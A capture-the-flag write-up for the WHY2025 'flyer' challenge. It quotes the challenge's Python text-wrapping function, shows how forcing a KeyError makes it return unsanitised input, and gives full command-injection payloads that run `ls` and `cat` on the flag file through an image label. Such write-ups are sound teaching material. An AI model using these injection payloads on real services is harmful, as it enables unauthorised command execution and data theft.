 # flyer

## Description
```To promote the WHY2025 event we created a generator to create your own WHY2025 flyer!``` 

## Points: **200**

## Solutions: **5%** of players

## Solution
The handout was `flyer.py`.
Looking through the source, I discovered something interesting in the `cutstring` function: 
```py 
def cutstring(s):
  global charWidth
  try:
    s = s.strip()
    lengthWord = 0
    lengthLine = 0
    sLine = ''
    sWord = ''
    wordLength = 0
    countList = 0
    sPrint = ''
    for char in s:
      filterString(char)
      if char in charWidth.keys():
        lengthWord = lengthWord + (charWidth[char])
        lengthLine = lengthLine + (charWidth[char])
      else:
        lengthWord = lengthWord + 25
        lengthLine = lengthLine + 25
      if lengthLine < 800:          # This is run if lengthLine is under 800
        if char != ' ':
          sWord = (str(sWord) + str(char))
        else:
          sLine = (str(sLine) + str(sWord))
          lengthWord = 0
          sWord = char
      elif lengthWord > 800:        # This is run if lengthLine is over 800
          abort(400, f"Word {sWord} too long to fit on a line")
      else:                         # This is run if it is equal to 800. 
        sPrint = (str(sPrint) + str(((str(sLine) + str('DeL1m3T3r!')))))
        lengthLine = 0
        for i in sWord:
          if i in charWidth.keys():
            filterString(i)
            lengthWord = lengthWord + (charWidth[char]) # This uses [char] instead of [i] which might be a "mistake"
            lengthLine = lengthLine + (charWidth[char])
          else:
            lengthWord = lengthWord + 25
            lengthLine = lengthLine + 25
        sLine = ''
        sWord = (str(sWord) + str(char))
    if char != ' ':
      sLine = (str(sLine) + str(sWord))
      sPrint = (str(sPrint) + str(sLine))
    sPrintList = sPrint.split('DeL1m3T3r!')
    textHeight = len(sPrintList) * 60
    if textHeight > 780:
        abort(400, "Height too long: " + str(textHeight))
    text = '\\n'.join(sPrintList)
    if len(text) > 460:
        abort(400, "Length too long: " + str(len(text)))
    return(textHeight,text)
  except Exception as error:                            # If there are exceptions and it isnt http exceptions, then the unsanitized string is returned which enables us to inject malicious code into the command.
      if isinstance(error, HTTPException):
          abort(error.code, error.description)
      return(780, s)
```
So how can we make an exception? We can a keyError exception if `lengthLine == 800` and char is not in the charWidth dictionary. After that, we should be able to inject stuff into the command that is run.
First, I made a small script that demonstrates this: `solve.py` - first it pads the `lengthLine` to 800 and then the next char that is processed is `!` which is not in `charWidth` dict.
That means we have command injection. The only output that we can exfiltrate is the image - so why not inject run `ls` and exfiltrate it using a labal in the image? So I sent these params to the server:
`color=2&text=iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiirrll77!" -pointsize 24 label:"\n\n$(ls)`
This showed a file named `secret_flag_77238723.txt`. Then I got the flag by using this payload:
`color=2&text=iiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiiirrll77!" -pointsize 24 label:"\n\n$(cat secret_flag_77238723.txt)`